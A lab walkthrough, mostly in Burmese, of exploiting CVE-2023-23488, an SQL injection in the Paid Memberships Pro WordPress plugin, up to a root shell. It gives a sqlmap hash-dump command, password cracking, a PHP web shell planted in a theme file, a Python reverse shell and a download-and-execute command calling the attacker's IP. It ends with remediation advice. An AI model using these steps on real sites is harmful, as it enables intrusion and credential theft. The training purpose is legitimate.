

> **Responsible Use Note**  
> ဤ walkthrough သည် **authorized CTF/lab environment** အတွက်သာ ရည်ရွယ်ပါသည်။ ကိုယ်ပိုင်မဟုတ်သော system, public server, company system များတွင် ခွင့်ပြုချက်မရှိဘဲ မစမ်းသပ်ရပါ။

## 1. Machine Overview

| Item | Detail |
|---|---|
| Machine / Lab | CVE-2023-23488 Lab |
| Target Type | Standalone Web Machine |
| Main Service | WordPress on HTTP |
| Main Vulnerability | Paid Memberships Pro Unauthenticated SQL Injection |
| Initial Access | SQL injection → WordPress user hash dump → hash cracking → WordPress admin access |
| Privilege Escalation | Theme file modification leading to command execution as root in this lab |
| Final Objective | Root shell / proof access |

ဒီ lab မှာ target machine ပေါ်မှာ WordPress site တစ်ခု run နေပါတယ်။ ပထမဆုံး Nmap နဲ့ open ports တွေကို စစ်ပြီး HTTP service ကို identify လုပ်ပါမယ်။ Web enumeration အဆင့်မှာ WordPress plugin တစ်ခုဖြစ်တဲ့ **Paid Memberships Pro 2.9.7** ကို တွေ့ရပြီး CVE-2023-23488 နဲ့ ဆက်စပ်နိုင်ကြောင်း စစ်ဆေးပါမယ်။ SQL injection ကြောင့် WordPress user hash ကို dump လုပ်နိုင်ပြီး hash ကို crack လုပ်ကာ WordPress dashboard ထဲဝင်ပါမယ်။ နောက်ဆုံးမှာ Theme File Editor ကိုအသုံးပြုပြီး command execution ရယူကာ reverse shell ရရှိပါမယ်။

## 2. Lab Setup

အောက်က variables တွေကို ကိုယ့် lab environment အတိုင်း ပြောင်းသုံးပါ။

```shell
export TARGET="10.230.78.13"
export DOMAIN="affliation.local"
export RHOST="http://$DOMAIN"
export LHOST="192.168.49.78"
export LPORT="9090"
```

| Variable | Meaning |
|---|---|
| `TARGET` | Target machine IP address |
| `DOMAIN` | Target hostname discovered from redirect |
| `RHOST` | WordPress target URL |
| `LHOST` | Attacker machine IP address |
| `LPORT` | Reverse shell listener port |

Required tools:

- nmap
- curl
- browser
- wpscan
- searchsploit
- sqlmap
- john
- python3
- nc

`affliation.local` ဆိုတဲ့ hostname ကို target က redirect အဖြစ် ပြနေသောကြောင့် attacker machine ရဲ့ `/etc/hosts` ထဲမှာ mapping ထည့်ဖို့လိုပါတယ်။ Hostname mapping မလုပ်ထားရင် browser သို့မဟုတ် tools တွေက site ကိုမှန်ကန်စွာ access မလုပ်နိုင်ပါ။

```shell
echo "$TARGET $DOMAIN" | sudo tee -a /etc/hosts
```

စစ်ရန်:

```shell
grep "$DOMAIN" /etc/hosts
```

Expected output:

```text
10.230.78.13 affliation.local
```

## 3. Attack Chain Summary

### 3.1 Text-based Attack Chain

```text
Start: Authorized Lab
→ Nmap scan
→ Find SSH on port 22 and HTTP on port 80
→ Identify redirect to affliation.local
→ Add hostname to /etc/hosts
→ Open WordPress site
→ Enumerate WordPress with WPScan
→ Discover Paid Memberships Pro 2.9.7 plugin
→ Map plugin version to CVE-2023-23488
→ Confirm unauthenticated SQL injection
→ Use sqlmap to dump WordPress user hash
→ Crack WordPress phpass hash with John
→ Login to WordPress as Eren
→ Modify theme 404.php in lab
→ Confirm command execution with id
→ Prepare Python reverse shell
→ Transfer and execute payload
→ Receive root shell
```

### 3.2 Mermaid Flowchart



### 3.3 Attack Chain Logic

ဒီ attack chain ရဲ့ အဓိက logic က web enumeration ကနေစပါတယ်။ Port scan မှာ HTTP service တွေ့ရင် web application ကို identify လုပ်ပြီး application type, plugin, theme, version, exposed endpoint စတဲ့ clue တွေကို စုဆောင်းရပါတယ်။ ဒီ lab မှာ WordPress plugin version တစ်ခုက vulnerable ဖြစ်နေပြီး unauthenticated SQL injection ကြောင့် database ထဲက user hash ကို ရယူနိုင်ပါတယ်။ Hash ကို crack လုပ်ပြီး dashboard ထဲ login ဝင်နိုင်လာတဲ့အခါ WordPress theme editor ကနေ PHP code execution ရနိုင်ပြီး lab environment မှာ root context shell ရရှိသွားပါတယ်။

## 4. Enumeration Phase

### 4.1 Initial Port Scan

Target machine ရဲ့ open ports တွေကိုသိရန် full TCP port scan စတင်ပါ။

```shell
nmap -p- -sV -sC $TARGET --open
```

| Option | Purpose |
|---|---|
| `-p-` | TCP port `1` မှ `65535` အထိ scan လုပ်ရန် |
| `-sV` | Service name နှင့် version ကို detect လုပ်ရန် |
| `-sC` | Nmap default scripts များကို run လုပ်ရန် |
| `--open` | Open ports များကိုသာ ပြရန် |

Port scan သည် attack surface ကိုသိရန် ပထမဆုံးအရေးကြီးဆုံးအဆင့်ဖြစ်ပါတယ်။ Open port တစ်ခုတိုင်းသည် service တစ်ခု run နေကြောင်းပြသနိုင်ပြီး ထို service ကနေ version disclosure, login page, API endpoint, misconfiguration, known CVE စတဲ့ clue များရနိုင်ပါတယ်။

### 4.2 Important Scan Result

```text
PORT   STATE  SERVICE  VERSION
22/tcp open   ssh      OpenSSH 8.4p1 Debian
80/tcp open   http     nginx 1.18.0
```

ဒီ result ထဲမှာ `22/tcp` နှင့် `80/tcp` ကိုတွေ့ရပါတယ်။ `22/tcp` သည် SSH ဖြစ်ပြီး credential မရှိသေးပါက direct login မလုပ်နိုင်သေးပါ။ `80/tcp` သည် HTTP web service ဖြစ်ပြီး Nmap output ထဲမှာ `http://affliation.local/` သို့ redirect ပြနေသည်ကို တွေ့ရပါတယ်။ Web service များသည် public page, login page, plugin, version information, API endpoint စတဲ့ clue တွေကို ပိုမိုထုတ်ပေးနိုင်သောကြောင့် အရင်ဆုံး HTTP service ကို စစ်သင့်ပါတယ်။

### 4.3 Service Prioritization

ဒီ lab မှာ web service ကို အရင်ဆုံး ဦးစားပေးပါတယ်။ SSH သည် credential လိုအပ်နိုင်ပြီး initial access အတွက် ချက်ချင်းအသုံးမဝင်သေးပါ။ HTTP service မှာ WordPress ဖြစ်နိုင်ခြေရှိပြီး WordPress plugin များသည် known CVE နှင့် version-specific vulnerability များရှိနိုင်သောကြောင့် web enumeration ကို အဓိကထားစစ်ပါမယ်။

## 5. Web / Service Enumeration

### 5.1 Hostname Mapping

Nmap result ထဲမှာ site က `affliation.local` သို့ redirect ပြနေတဲ့အတွက် hostname mapping လုပ်ဖို့လိုပါတယ်။

```shell
echo "$TARGET $DOMAIN" | sudo tee -a /etc/hosts
```

စစ်ရန်:

```shell
cat /etc/hosts
```

Expected relevant line:

```text
10.230.78.13 affliation.local
```

Browser မှာ ဖွင့်ပါ။

```text
http://affliation.local/
```

Page ကိုကြည့်တဲ့အခါ WordPress site တစ်ခုဖြစ်ကြောင်း သိနိုင်ပါတယ်။ WordPress ဖြစ်ကြောင်းသိရင် core version, theme, plugin, users, XML-RPC, REST API endpoint စတဲ့ WordPress-specific enumeration ကို ဆက်လုပ်နိုင်ပါတယ်။

### 5.2 WordPress Plugin Enumeration

WordPress site တွေမှာ plugin vulnerability များကြောင့် initial foothold ရနိုင်တာများပါတယ်။ Plugin များကို enumerate လုပ်ရန် WPScan ကိုအသုံးပြုပါ။

```shell
wpscan --url "http://affliation.local/" -ep
```

ဒီ command ထဲက `-ep` သည် plugins enumeration ကို run လုပ်ရန် အသုံးပြုပါတယ်။ WPScan output ထဲမှာ WordPress version, theme, XML-RPC status, readme file, plugin path, plugin version စတဲ့ information များကို တွေ့နိုင်ပါတယ်။

### 5.3 Important WPScan Finding

```text
WordPress version: 6.2
Theme: twentytwentyone 1.8
Plugin: paid-memberships-pro-2.9.7
Plugin location: /wp-content/plugins/paid-memberships-pro-2.9.7/
```

ဒီ finding ထဲမှာ အရေးကြီးဆုံးက **Paid Memberships Pro 2.9.7** plugin ဖြစ်ပါတယ်။ WordPress core version ထက် plugin version ကပိုအရေးကြီးနိုင်ပါတယ်။ WordPress compromise များတွင် vulnerable plugin, abandoned plugin, outdated plugin, misconfigured plugin တို့က common attack path ဖြစ်နိုင်ပါတယ်။

## 6. Vulnerability Root Cause

CVE-2023-23488 သည် **Paid Memberships Pro** WordPress plugin ရဲ့ unauthenticated SQL injection vulnerability ဖြစ်ပါတယ်။ SQL injection ဆိုတာ user-controlled input ကို database query ထဲမှာ လုံခြုံစွာ မစစ်ဆေးဘဲ အသုံးပြုခြင်းကြောင့် attacker က query behavior ကို ထိန်းချုပ်နိုင်သွားတဲ့ vulnerability ဖြစ်ပါတယ်။

ဒီ lab မှာ vulnerable endpoint သည် WordPress REST route တစ်ခုဖြစ်တဲ့ အောက်ပါပုံစံကိုအသုံးပြုပါတယ်။

```text
/?rest_route=/pmpro/v1/order&code=a
```

`code` parameter သည် SQL injection point အဖြစ် အသုံးပြုနိုင်ပါတယ်။ Application သည် `code` value ကို database query ထဲသို့ မလုံခြုံစွာ pass လုပ်မိသောကြောင့် attacker က time-based SQL injection technique ကိုအသုံးပြုပြီး database ထဲက data များကို retrieve လုပ်နိုင်ပါတယ်။

ရိုးရိုး analogy နဲ့ပြောရရင် application က user ကို “order code တစ်ခုသာပေးပါ” လို့မျှော်လင့်ထားပေမယ့် attacker က “order code” နေရာမှာ database query ကိုပြောင်းလဲစေမယ့် instruction တွေထည့်ပေးလိုက်တာဖြစ်ပါတယ်။ Application က input ကိုသေချာ validate မလုပ်ဘဲ query ထဲထည့်သုံးလိုက်တဲ့အတွက် database ထဲက sensitive information များကို ဖော်ထုတ်နိုင်သွားပါတယ်။

ဒီ lab မှာ impact က WordPress user table ထဲက username နှင့် password hash ကို dump လုပ်နိုင်ခြင်းဖြစ်ပါတယ်။ Password hash ကို crack လုပ်နိုင်သွားရင် WordPress admin dashboard ထဲ login ဝင်နိုင်ပြီး နောက်ထပ် command execution path ကို ဆက်လုပ်နိုင်ပါတယ်။

## 7. Safe Vulnerability Confirmation

### 7.1 Search Exploit Database

Plugin name ကိုသိပြီးနောက် local Exploit Database မှာ ရှာပါ။

```shell
searchsploit paid membership pro
```

Expected relevant result:

```text
Paid Memberships Pro v2.9.8 (WordPress Plugin) - Unauthenticated SQL Injection
Path: php/webapps/51235.py
Codes: CVE-2023-23488
```

ဒီ result က Paid Memberships Pro plugin version `< 2.9.8` တွင် unauthenticated SQL injection ရှိနိုင်ကြောင်းပြသပါတယ်။ Target မှာ `2.9.7` ဖြစ်နေသောကြောင့် vulnerable range ထဲဝင်နိုင်ပါတယ်။

### 7.2 Copy and Review PoC

```shell
searchsploit -m php/webapps/51235.py
```

Usage ကိုကြည့်ရန်:

```shell
python3 51235.py
```

Expected output:

```text
Paid Memberships Pro < 2.9.8 (WordPress Plugin) - Unauthenticated SQL Injection
Usage: python3 CVE-2023-23488.py
Example: python3 CVE-2023-23488.py http://127.0.0.1/wordpress
```

### 7.3 Confirm Vulnerability

```shell
python3 51235.py http://affliation.local/
```

Expected output:

```text
[-] Testing if the target is vulnerable...
[*] The target is vulnerable
```

ဒီအဆင့်မှာ exploit script က target vulnerable ဖြစ်ကြောင်း safe confirmation ပြပေးပါတယ်။ ဒီ confirmation အဆင့်မှာ shell ရယူခြင်းမဟုတ်သေးပါ။ SQL injection ဖြစ်နိုင်ကြောင်း စစ်ဆေးပြီး နောက်တစ်ဆင့်မှာ database ထဲက relevant table ကို dump လုပ်နိုင်မလား ဆက်စစ်ပါမယ်။

## 8. Exploitation

### 8.1 Dump WordPress Users Table

Exploit output က sqlmap command ကိုပြပေးပါတယ်။ WordPress user login နှင့် password hash ကို dump လုပ်ရန် `wp_users` table ထဲက `user_login` နှင့် `user_pass` columns ကိုရွေးပါ။

```shell
sqlmap -u "http://affliation.local//?rest_route=/pmpro/v1/order&code=a" -p code --skip-heuristics --technique=T --dbms=mysql --batch --dump -T wp_users -C user_login,user_pass
```

| Option | Purpose |
|---|---|
| `-u` | Target URL |
| `-p code` | Injection parameter ကို `code` အဖြစ် သတ်မှတ်သည် |
| `--technique=T` | Time-based SQL injection technique ကိုအသုံးပြုသည် |
| `--dbms=mysql` | Backend DBMS ကို MySQL အဖြစ် သတ်မှတ်သည် |
| `--batch` | Interactive prompt မေးခြင်းကို လျှော့ချသည် |
| `--dump` | Data dump လုပ်သည် |
| `-T wp_users` | `wp_users` table ကိုရွေးသည် |
| `-C user_login,user_pass` | username နှင့် password hash columns ကိုသာ dump လုပ်သည် |

Expected output:

```text
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| Eren       | $P$BdPMS47I2VWPAMQbidHmkga5YtOvjr. |
+------------+------------------------------------+
```

ဒီ result ထဲက `$P$` prefix သည် WordPress phpass hash format ဖြစ်နိုင်ကြောင်းပြသပါတယ်။ Hash သည် plaintext password မဟုတ်သေးပါ။ Dashboard login ဝင်နိုင်ရန် password ကို crack လုပ်ရန်လိုပါတယ်။

### 8.2 Crack WordPress Hash

Hash ကို file ထဲသို့သိမ်းပါ။

```shell
echo '$P$BdPMS47I2VWPAMQbidHmkga5YtOvjr.' > hash
```

John the Ripper နဲ့ crack လုပ်ပါ။

```shell
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

Expected cracked password:

```text
letsyouupdateyourfunnotesandmore
```

Cracked credential:

```text
Username: Eren
Password: letsyouupdateyourfunnotesandmore
```

ဒီအဆင့်မှာ SQL injection မှရထားတဲ့ hash ကို crack လုပ်ပြီး WordPress login credential ရရှိပါပြီ။ Initial foothold ကို database access တိုက်ရိုက်မဟုတ်ဘဲ application account compromise အဖြစ် ဆက်အသုံးပြုပါမယ်။

## 9. WordPress Access Confirmation

WordPress dashboard ကို login ဝင်ပါ။

```text
http://affliation.local/wp-admin
```

Credential:

```text
Eren : letsyouupdateyourfunnotesandmore
```

Dashboard ထဲဝင်နိုင်ပြီဆိုရင် web application account compromise အဆင့်ရောက်ပါပြီ။ WordPress dashboard access သည် plugin/theme editing, media upload, configuration review, user management စတဲ့ functionality များကိုပေးနိုင်သောကြောင့် အလွန်အရေးကြီးပါတယ်။

## 10. Command Execution Through Theme Editor

WordPress admin dashboard ထဲဝင်ပြီးနောက်:

```text
Appearance → Theme File Editor → 404.php
```

ဒီ lab မှာ `404.php` file ကို command execution handler အဖြစ်ပြောင်းသုံးပါတယ်။ Original walkthrough ထဲမှာ exact PHP code ကို မဖော်ပြထားသော်လည်း `?cmd=id` parameter ဖြင့် command run ထားသောကြောင့် lab context တွင် command parameter ကို execute လုပ်နိုင်သည့် PHP handler ကိုထည့်ထားကြောင်း နားလည်နိုင်ပါတယ်။

Lab-only minimal pattern:

```php
<?php system($_GET['cmd']); ?>
```

File ကို update လုပ်ပြီးနောက် command execution ကို safe command ဖြင့်စစ်ပါ။

```text
http://affliation.local/wp-content/themes/twentytwentyone/404.php?cmd=id
```

Expected output:

```text
uid=0(root) gid=0(root) groups=0(root)
```

ဒီ output က command execution ရရှိကြောင်းပြသပါတယ်။ အထူးသတိပြုရမယ့်အချက်က ဒီ lab environment မှာ web command execution သည် root context ဖြင့် run နေပါတယ်။ Real-world environment တွင် web server user သည် `www-data`, `apache`, `nginx` သို့မဟုတ် application-specific user ဖြစ်နိုင်ပြီး root မဖြစ်နိုင်ပါ။

## 11. Shell / Access Confirmation

Command execution ရရှိပြီးနောက် current context ကိုစစ်ရန် အောက်ပါ commands များကိုသုံးနိုင်ပါတယ်။

```text
http://affliation.local/wp-content/themes/twentytwentyone/404.php?cmd=whoami
```

```text
http://affliation.local/wp-content/themes/twentytwentyone/404.php?cmd=id
```

```text
http://affliation.local/wp-content/themes/twentytwentyone/404.php?cmd=hostname
```

Python3 ရှိမရှိ စစ်ပါ။

```text
http://affliation.local/wp-content/themes/twentytwentyone/404.php?cmd=which%20python3
```

Expected output:

```text
/usr/bin/python3
```

ဒီအဆင့်မှာ browser မှတဆင့် command execution ရရှိနေသော်လည်း interactive shell မဟုတ်သေးပါ။ နောက်တစ်ဆင့်မှာ reverse shell ကိုအသုံးပြုပြီး attacker terminal မှာ interactive access ရယူပါမယ်။

## 12. Reverse Shell Execution

### 12.1 Create Python Reverse Shell File

Attacker machine ပေါ်မှာ `shell.py` ဖိုင်တစ်ခုဖန်တီးပါ။

```shell
cat > shell.py << 'EOF'
import socket
import os
import pty

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.49.78", 9090))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
pty.spawn("/bin/sh")
EOF
```

ဒီ file ထဲမှာ `192.168.49.78` နေရာကို ကိုယ့် attacker IP (`LHOST`) နဲ့ပြောင်းပါ။ `9090` နေရာကို ကိုယ့် listener port (`LPORT`) နဲ့ကိုက်ညီအောင်ထားပါ။

### 12.2 Start HTTP Server

`shell.py` ရှိတဲ့ directory ထဲမှာ HTTP server စတင်ပါ။

```shell
python3 -m http.server 80
```

ဒီ HTTP server သည် target machine က `shell.py` ကို download လုပ်နိုင်အောင် host လုပ်ပေးတာဖြစ်ပါတယ်။

### 12.3 Start Netcat Listener

Terminal အသစ်တစ်ခုတွင် listener စတင်ပါ။

```shell
nc -nlvp 9090
```

Reverse shell သည် target မှ attacker machine ဆီကို connection ပြန်လာမည်ဖြစ်သောကြောင့် listener ကို payload မ run ခင်ဖွင့်ထားရပါမယ်။

### 12.4 Download, Permit, and Execute Payload

Target command execution endpoint ကနေ payload ကို download လုပ်ပြီး execute လုပ်ပါ။

Raw command:

```shell
wget http://192.168.49.78:80/shell.py -O /var/tmp/shell.py ; chmod +x /var/tmp/shell.py ; python3 /var/tmp/shell.py
```

URL-encoded request:

```text
http://affliation.local/wp-content/themes/twentytwentyone/404.php?cmd=wget%20http://192.168.49.78:80/shell.py%20-O%20/var/tmp/shell.py%20;%20chmod%20+x%20/var/tmp/shell.py%20;%20python3%20/var/tmp/shell.py
```

HTTP server မှာ file download ဖြစ်ကြောင်းမြင်ရပါမယ်။

```text
10.230.78.13 - - [04/Oct/2023 15:37:41] "GET /shell.py HTTP/1.1" 200 -
```

Netcat listener မှာ shell ပြန်ဝင်လာပါမယ်။

```text
connect to [192.168.49.78] from (UNKNOWN) [10.230.78.13] 34306
```

Confirm:

```shell
id
whoami
hostname
pwd
```

Expected output:

```text
uid=0(root) gid=0(root) groups=0(root)
```

## 13. Shell Stabilization

ဒီ lab မှာ Python reverse shell payload က `pty.spawn("/bin/sh")` ကိုသုံးထားပြီးသားဖြစ်ပါတယ်။ Shell ကိုပိုမိုသုံးရလွယ်အောင် အောက်ပါ commands တွေကိုအသုံးပြုနိုင်ပါတယ်။

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

ပြီးရင် attacker terminal မှာ:

```shell
export TERM=xterm
stty rows 40 columns 120
```

Stable shell ရှိရင် command output ကြည့်ရလွယ်တယ်၊ interactive command တွေသုံးရလွယ်တယ်၊ terminal behavior ပိုမှန်ကန်လာပါတယ်။

## 14. Privilege Escalation Notes

Original walkthrough ရဲ့ summary ထဲမှာ `sudo privileges` ကိုစစ်ပြီး privilege escalation လုပ်မယ်လို့ဖော်ပြထားပေမယ့် actual exploitation section မှာ Theme File Editor မှ command execution ပြုလုပ်ပြီး `id` output က `uid=0(root)` ပြနေပါတယ်။ ထို့ကြောင့် ဒီ lab instance မှာ reverse shell ရလာချိန်တွင် root context ရရှိပြီးသားဖြစ်ပါတယ်။

Real-world WordPress server များတွင် web process သည် root အနေနဲ့ run မဖြစ်သင့်ပါ။ Web server သို့မဟုတ် PHP process root အဖြစ် run နေခြင်းသည် severe misconfiguration ဖြစ်ပါတယ်။ Web application compromise တစ်ခုက OS-level root compromise အထိ တိုက်ရိုက်ရောက်သွားနိုင်သောကြောင့် အလွန်အန္တရာယ်များပါတယ်။

လိုအပ်ပါက sudo permission ကိုစစ်ရန်:

```shell
sudo -l
```

Current user ကိုစစ်ရန်:

```shell
id
whoami
```

## 15. Proof / Flag

Root shell ရပြီးနောက် proof သို့မဟုတ် flag file ကိုရှာပါ။

```shell
find / -iname '*proof*' 2>/dev/null
```

သို့မဟုတ်:

```shell
find / -iname '*flag*' 2>/dev/null
```

တွေ့ရှိသော path ကိုဖတ်ပါ။

```shell
cat <PROOF_OR_FLAG_PATH>
```

ဒီအဆင့်မှာ final objective ပြီးမြောက်ပါပြီ။ CTF/lab environment များတွင် proof file သည် machine compromise အောင်မြင်ကြောင်းအတည်ပြုရန် အသုံးပြုပါတယ်။

## 16. Troubleshooting

| Problem | Possible Cause | Check / Fix |
|---|---|---|
| Browser cannot open site | `/etc/hosts` missing | Add `10.230.78.13 affliation.local` |
| WPScan no result | Wrong URL or hostname | Use `http://affliation.local/` |
| SQLMap no result or slow | Time-based SQL injection behavior | Wait patiently and confirm target URL |
| No hash dumped | Wrong table prefix or target difference | Check WordPress table prefix |
| John does not crack hash | Password not in wordlist | Try another authorized wordlist or rule set |
| WordPress login fails | Wrong cracked password or username | Recheck hash and John output |
| Theme editor missing | User lacks permission or editor disabled | Check WordPress role and configuration |
| Reverse shell not received | Wrong `LHOST` or listener not running | Verify VPN IP and `nc -nlvp 9090` |
| Payload not downloaded | HTTP server not reachable | Check `python3 -m http.server 80` and firewall |
| Command output missing | PHP handler issue or URL encoding issue | Test with `cmd=id` first |

Troubleshooting အဆင့်မှာ အရေးကြီးတာက exploit command ကိုထပ်ခါထပ်ခါ မပြေးခင် network path, hostname, listener, URL encoding, credential, permission တို့ကိုတစ်ခုချင်းစစ်ခြင်းဖြစ်ပါတယ်။

## 17. Root Cause and Remediation

| Issue | Risk | Recommended Remediation |
|---|---|---|
| Outdated vulnerable plugin | SQL injection and data exposure | Upgrade Paid Memberships Pro to fixed version |
| Unauthenticated SQL injection | Database data extraction | Validate input and use parameterized queries |
| Password hash exposure | Account takeover after cracking | Strong passwords and password policy |
| Weak/crackable password | WordPress dashboard compromise | Enforce strong unique passwords and MFA |
| Theme File Editor enabled | Admin account can modify PHP files | Disable file editing in WordPress |
| Web process running as root | Web compromise becomes root compromise | Run web/PHP services as least-privileged user |
| Public WordPress exposure | Higher attack surface | Restrict admin access with VPN/IP allowlist |
| Limited monitoring | Delayed detection | Monitor suspicious REST API and theme edits |

Patch management သည် အဓိကဖြစ်ပါတယ်။ Vulnerable plugin ကို vendor-fixed version သို့ upgrade လုပ်ရမည်ဖြစ်ပြီး unused plugins များကို disable/remove လုပ်သင့်ပါတယ်။ WordPress plugin များသည် frequent attack surface ဖြစ်သောကြောင့် plugin inventory, version monitoring, vulnerability scanning ကို regular process အဖြစ်ထားသင့်ပါတယ်။

WordPress dashboard အတွက် MFA, strong password policy, least privilege user roles တို့ကိုသုံးသင့်ပါတယ်။ Admin account compromise ဖြစ်သွားလျှင် Theme File Editor မှ PHP code edit လုပ်နိုင်သောကြောင့် `DISALLOW_FILE_EDIT` ကို enable လုပ်ပြီး dashboard မှ file editing ကိုပိတ်ထားသင့်ပါတယ်။

Web server နှင့် PHP process များကို root user အဖြစ် မ run သင့်ပါ။ Application compromise ဖြစ်သော်လည်း OS root compromise မဖြစ်အောင် service account ကို least privilege ဖြင့် run ထားရပါမယ်။

## 18. Key Learning Points

- Enumeration သည် exploit မစတင်ခင် အရေးကြီးဆုံးအဆင့်ဖြစ်ပါတယ်။
- WordPress site တွေမှာ plugin version enumeration သည် အလွန်အရေးကြီးပါတယ်။
- Version-specific plugin vulnerability များကို CVE နှင့် mapping လုပ်နိုင်ပါတယ်။
- SQL injection သည် database ထဲက sensitive data များကို ဖော်ထုတ်နိုင်ပါတယ်။
- Password hash ကိုရတာနဲ့ password သိပြီလို့မဆိုနိုင်ပါ။ Crack လုပ်ရန်လိုနိုင်ပါတယ်။
- Weak password ဖြစ်ပါက hash cracking ကနေ application takeover ဖြစ်နိုင်ပါတယ်။
- WordPress admin access ရတာနဲ့ server shell ရတာမတူသေးပါ။ Theme editor, plugin upload, file write permission စတဲ့ path တွေကိုစစ်ရပါတယ်။
- Web process root အဖြစ် run နေခြင်းသည် critical misconfiguration ဖြစ်ပါတယ်။
- Patch management, strong passwords, MFA, file editing disable, least privilege controls မရှိပါက web vulnerability တစ်ခုက root compromise အထိ ဖြစ်သွားနိုင်ပါတယ်။

## 19. Quick Command Reference

```shell
# Variables
export TARGET="10.230.78.13"
export DOMAIN="affliation.local"
export RHOST="http://$DOMAIN"
export LHOST="192.168.49.78"
export LPORT="9090"

# Hostname mapping
echo "$TARGET $DOMAIN" | sudo tee -a /etc/hosts

# Enumeration
nmap -p- -sV -sC $TARGET --open

# WordPress enumeration
wpscan --url "http://affliation.local/" -ep

# Exploit DB lookup
searchsploit paid membership pro
searchsploit -m php/webapps/51235.py

# Safe vulnerability confirmation
python3 51235.py http://affliation.local/

# Dump WordPress users
sqlmap -u "http://affliation.local//?rest_route=/pmpro/v1/order&code=a" -p code --skip-heuristics --technique=T --dbms=mysql --batch --dump -T wp_users -C user_login,user_pass

# Crack hash
echo '$P$BdPMS47I2VWPAMQbidHmkga5YtOvjr.' > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt

# Start HTTP server for payload
python3 -m http.server 80

# Start reverse shell listener
nc -nlvp 9090

# Confirm shell
id
whoami
hostname
pwd

# Find proof
find / -iname '*proof*' 2>/dev/null
cat <PROOF_OR_FLAG_PATH>
```

## 20. Final Summary

ဒီ lab ရဲ့ compromise path သည် WordPress plugin enumeration မှစပြီး SQL injection မှတဆင့် user hash ရယူခြင်း၊ hash cracking ဖြင့် WordPress dashboard access ရယူခြင်း၊ Theme File Editor မှ command execution ရယူခြင်း၊ နောက်ဆုံး reverse shell ဖြင့် root shell ရရှိခြင်းဖြစ်ပါတယ်။ အဓိက defensive lesson က plugin patching, strong password, MFA, file editing restriction, least privilege service configuration များ မရှိပါက web application weakness တစ်ခုက full system compromise အထိဖြစ်နိုင်ခြင်းဖြစ်ပါတယ်။

```text
WordPress on port 80
→ Paid Memberships Pro 2.9.7
→ CVE-2023-23488 SQL Injection
→ Dump WordPress user hash
→ Crack Eren password
→ WordPress admin login
→ Theme file command execution
→ Reverse shell
→ Root access
```
